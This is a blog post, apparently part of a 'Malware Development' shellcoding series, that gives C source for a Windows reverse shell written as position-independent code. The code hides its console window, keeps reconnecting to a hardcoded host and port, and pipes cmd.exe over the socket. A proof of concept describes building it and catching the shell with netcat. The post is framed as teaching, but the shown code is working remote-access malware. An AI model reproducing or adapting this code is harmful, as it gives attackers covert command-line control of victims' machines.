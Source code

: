 ```yaml
---
title: "Shellcode - Pt 3: Reverse Shell"
description: This time we'll develop a reverse shell using cmd.exe + socks. Here, we'll make extensive use of the functionalities seen in the previous modules of this Shellcoding chapter.
author: Oblivion
date: 2024-01-22 11:33:00 +0800
categories: [Malware Development]
tags: []
pin: true
math: true
mermaid: true
---
```



# Project Architecture

```
.
├── bin
│   └── shellcode.exe
├── include
│   ├── common.h
│   ├── core
│   │   └── win32.h
│   └── structs.h
├── makefile
├── scripts
│   └── extract.py
└── src
    ├── asm
    │   └── entry.asm
    ├── core
    │   ├── mem.c
    │   ├── strman.c
    │   └── win32.c
    └── main.c
```

# Reverse Shell

```c
void Main() {

    INSTANCE Instance = { 0 };
    InitInstance(&Instance);

    Instance.Api.pFreeConsole();

    char Host[] = "192.168.0.101";
    int  Port    = 8888;

    while(TRUE) {

        Instance.Api.pSleep(5000); 

        SOCKET      Socket  = { 0 };
        SOCKADDR_IN Addr    = { 0 };
        WSADATA     version = { 0 };

        Instance.Api.pWSAStartup(MAKEWORD(2,2), &version);
        Socket = Instance.Api.pWSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
        
        Addr.sin_family      = AF_INET;
        Addr.sin_addr.s_addr = Instance.Api.pinet_addr(Host); 
        Addr.sin_port        = Instance.Api.phtons(Port); 
        

        if (Instance.Api.pWSAConnect(Socket, (SOCKADDR*)&Addr, sizeof(Addr), NULL, NULL, NULL, NULL) != SOCKET_ERROR) {
            char RecvData[DEFAULT_BUFLEN];
            MemSet(RecvData, 0, sizeof(RecvData));
            int RecvCode = Instance.Api.pRecv(Socket, RecvData, DEFAULT_BUFLEN, 0);
            
            if (RecvCode > 0) {
                STARTUPINFO         Si = { 0 };
                PROCESS_INFORMATION Pi = { 0 };
                
                CHAR ccmd[]  = { 'c', 'm', 'd', '.', 'e', 'x', 'e', 0 };
                CHAR cexit[] = { 'e', 'x', 'i', 't', '\n', 0 };

                MemSet(&Si, 0, sizeof(Si));
                Si.cb        = sizeof(Si);
                Si.dwFlags   = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
                Si.hStdInput = Si.hStdOutput = Si.hStdError = (HANDLE)Socket;
                
                Instance.Api.pCreateProcess(NULL, ccmd, NULL, NULL, TRUE, 0, NULL, NULL, &Si, &Pi);
                
                Instance.Api.pWaitForSingleObject(Pi.hProcess, INFINITE);
                
                Instance.Api.pCloseHandle(Pi.hProcess);
                Instance.Api.pCloseHandle(Pi.hThread);
                
                MemSet(RecvData, 0, sizeof(RecvData));
                RecvCode = Instance.Api.pRecv(Socket, RecvData, DEFAULT_BUFLEN, 0);
                
                if (RecvCode > 0 && StringCompareA(RecvData, cexit) == 0) {
                    Instance.Api.pExitProcess(0);
                }
            }
            
            Instance.Api.pclosesocket(Socket);
        }
        
        Instance.Api.pWSACleanup();
    }
}
```

Let's go straight to the reverse shell. First, the function FreeConsole() is used to disable the console window so it won't be visible to the user. Then, there's a Sleep with an infinite loop that will sleep if disconnected and then try to reconnect. Next, we'll open a SOCKS connection to our Host and Port. After setting everything up, it tries to connect to the server. If the connection is successful, it receives data from the server and stores it in a buffer. Therefore, we'll create a process with CreateProcess WinAPI, initializing cmd.exe, and initializing the PROCESS INFORMATION and STARTUPINFO structures.

PROCESS INFORMATION is filled with the main Thread ID, Process ID, Handle for the Process, and Handle for the main Thread. STARTUPINFO is used to set up input and output redirection for the created process.

```c
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;
  HANDLE hThread;
  DWORD  dwProcessId;
  DWORD  dwThreadId;
} PROCESS_INFORMATION, *PPROCESS_INFORMATION, *LPPROCESS_INFORMATION;
```

The STARTUPINFO structure contains details about everything that needs to be done before the process starts. We are using this structure to redirect input and output to the socket handle.

```c
typedef struct _STARTUPINFOA {
  DWORD  cb;
  LPSTR  lpReserved;
  LPSTR  lpDesktop;
  LPSTR  lpTitle;
  DWORD  dwX;
  DWORD  dwY;
  DWORD  dwXSize;
  DWORD  dwYSize;
  DWORD  dwXCountChars;
  DWORD  dwYCountChars;
  DWORD  dwFillAttribute;
  DWORD  dwFlags;
  WORD   wShowWindow;
  WORD   cbReserved2;
  LPBYTE lpReserved2;
  HANDLE hStdInput;
  HANDLE hStdOutput;
  HANDLE hStdError;
} STARTUPINFOA, *LPSTARTUPINFOA;
```

# POC

This POC will be quite simple; I'll use the Loader (Ldr) again, as explained in the parent chapter of shellcoding. The first step is to compile the entire project, and for that, I'll use the makefile again with the command make.

![img](../commons/reverse_shell/img1.png)

Now we need to open a port with netcat to receive the reverse connection.

![img](../commons/reverse_shell/img2.png)

Now we will execute the Loader (Ldr) to run our payload.

![img](../commons/reverse_shell/img3.png)

Now we'll check our listening server and see that we've received the connection. 😁

![img](../commons/reverse_shell/img4.png)

# Observations

When executed, the reverse shell will spawn a cmd.exe as a child process. The idea of the shellcoding project is by no means to be evasive, but rather to explain PIC (Position Independent Code) concepts in general.

## [Github Repository](https://github.com/Entropy-z/Shellcoding-Reverse_Shell)

